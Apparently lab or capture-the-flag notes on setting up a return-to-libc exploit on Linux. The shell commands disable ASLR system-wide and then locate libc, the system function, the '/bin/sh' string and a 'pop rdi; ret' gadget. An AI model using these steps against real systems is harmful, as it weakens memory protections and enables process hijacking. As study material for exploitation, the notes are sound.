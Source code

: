 echo 0 | sudo tee /proc/sys/kernel/randomize_va_space


ldd to get program libc location

ldd program
 linux-vdso.so.1 (0x00007ffc917b1000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2fb79df000)
 /lib64/ld-linux-x86-64.so.2 (0x00007f2fb7bc1000)



readelf to get system function address

readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
  1467: 0000000000049850    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

/bin/sh string location

strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 188962 /bin/sh

find pop rdi ret

0x00000000004007c3: pop rdi; ret;
  
  